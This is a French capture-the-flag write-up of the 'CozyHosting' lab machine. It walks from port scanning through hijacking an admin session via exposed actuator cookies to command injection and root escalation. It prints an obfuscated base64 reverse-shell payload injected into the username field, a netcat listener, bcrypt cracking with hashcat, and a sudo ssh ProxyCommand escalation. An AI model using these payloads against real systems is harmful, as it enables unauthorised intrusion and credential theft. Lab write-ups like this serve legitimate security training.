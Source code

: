   # CozyHosting

	echo "10.10.11.230 cozyhosting.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.230 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 10.10.11.230 -oN nmap.txt
	feroxbuster --silent -u http://cozyhosting.htb
	dirb http://cozyhosting.htb
	
Scans classiques.

	PORT STATE SERVICE VERSION  
	22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
	80/tcp open http nginx 1.18.0 (Ubuntu)  
	8000/tcp open http-alt?  
	8001/tcp open vcom-tunnel?  
	8083/tcp open us-srv?  
	8084/tcp open websnp?  
	8087/tcp open simplifymedia?  
	8088/tcp open radan-http?  
	8089/tcp open unknown

Quelques pages intéressantes pour le site du port 80 : 
<br>	  http://cozyhosting.htb/error
<br>	  http://cozyhosting.htb/login
<br>	  http://cozyhosting.htb/admin
<br>	  http://cozyhosting.htb/actuator 

Ce dernier lien amène sur une page contenant un fichier JSON, mais il y a aussi un répertoire **/actuator/sessions** contenant des numéros ressemblant à des cookies : 

> {"4F348676237277F41E9D3A090A6C962E":"UNAUTHORIZED","9F43555484B4D2F9F2CD0DAFEDD36249":"kanderson","0D1C93626FCA31EB3D35893B255A83CD":"kanderson","A916BC0AB3F9FBD5B11A0B0124576924":"UNAUTHORIZED","2978E55AF45A3F7F53A30F7B050B4F2B":"kanderson","35A7E3432573357D6BC2FF8A3D8C590D":"UNAUTHORIZED"}

Ces numéros sont au même format que le "JSESSIONID" que l'on peut voir dans Burp en interceptant les requêtes vers **/login** et **/admin** 

En testant tous les cookies avec le Repeater de Burp sur la page http://cozyhosting.htb/admin on finit par accéder au panneau d'administration avec le paramètre "Cookie: JSESSIONID=9F43555484B4D2F9F2CD0DAFEDD36249"

Plus bas dans la page on voit un système de patching automatique, et en envoyant une requête de test on remarque un nom de page extrêmement intéressant dans Burp : 

> POST /executessh HTTP/1.1

En terminant la requête on obtient une erreur qui est également très intéressante : 

> ssh: Could not resolve hostname aaa: Temporary failure in name resolution

Cela sous-entend qu'il y a une exécution de commande et donc éventuellement une possibilité d'injection. J'ai directement testé avec un reverse-shell parce que la fonctionnalité permet justement de se connecter un hôte et c'est exactement ce que l'on veut.

Voir https://github.com/six2dez/pentest-book/blob/master/exploitation/reverse-shells.md#linux pour les payloads obfusqués donnant un reverse-shell.

Payload utilisé : 
	
	;echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNDQvNDQzIDA+JjE="|base64${IFS}-d|bash;

Paramètres à envoyer : 

	host=10.10.16.44&username=%3Becho%24%7BIFS%7D%22c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNDQvNDQzIDA%2BJjE%3D%22%7Cbase64%24%7BIFS%7D-d%7Cbash%3B

Réception sur ma machine : 
	
	rlwrap nc -nvlp 443

### Élévation de privilèges :

	python3 -c "import pty ; pty.spawn('/bin/bash');"

On ne peut pas faire grand chose mais il y a un fichier .jar potentiellement intéressant dans le dossier /app où on atterrit après l'injection de commande. La commande "scp" semble ne pas fonctionner alors j'ai ouvert un port en tant que serveur web avec Python : 

	python3 -m http.server 9999

Plus qu'à le télécharger et à le dézipper chez moi : 

	wget http://10.10.11.230:9999/cloudhosting-0.0.1.jar
	cloudhosting-0.0.1.jar

On trouve des identifiants de connexion PostgreSQL dans le fichier **./BOOT-INF/classes/application.properties** 
En se connectant à la base de données et en la fouillant on trouve des mots de passe hashés, et il y en a un qui est assez faible pour être cracké : 

	psql postgresql://localhost:5432/cozyhosting -U postgres
	SELECT * FROM users;
	...
	echo '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' > hash.txt
	hashid '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' -m
	hashcat -a 0 -m 3200 '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm'  ~/wordlists/rockyou.txt
	
Sur la machine il n'y a qu'un autre utilisateur nommé Josh et le mot de passe trouvé fonctionne pour lui, il n'y a plus qu'à pivoter et terminer l'élévation de privilèges  : 

	ssh josh@10.10.11.230
	cat user.txt
	sudo -l

> User josh may run the following commands on localhost:  
&nbsp;&nbsp;&nbsp;&nbsp;(root) /usr/bin/ssh *

Voir https://gtfobins.github.io/gtfobins/ssh/#sudo

	sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
	cat /root/root.txt


